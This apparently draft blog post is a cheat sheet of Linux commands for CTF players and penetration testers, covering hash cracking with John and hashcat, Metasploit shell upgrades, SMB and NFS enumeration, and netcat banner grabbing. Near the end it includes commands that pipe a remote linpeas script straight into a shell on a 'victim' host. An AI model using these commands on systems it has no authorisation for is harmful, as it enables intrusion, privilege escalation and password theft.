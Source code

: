 ```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Bash for Hackers",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: true
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

Start Metasploit with database



Cracking hash with John

'''bash
──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
'''

Cracking hash with hashcat

Windows NTLM Hash

hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz  

Metasploit Shell Upgrade to Meterpreter
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1


## Extract Files

Gz Files

gunzip archive.gz

tar –xvzf archive.tar.gz

## SSH Connection 

ssh username@host -oHostKeyAlgorithms=+ssh-dss


## Text Filter

grep -i ]- inlcude
grep -v ]- exclude

## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.232.56
```

```bash
smbclient //IP/directory
```

mount NFS

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
nc IP port

## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

Python Simple HTTP Server


python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim
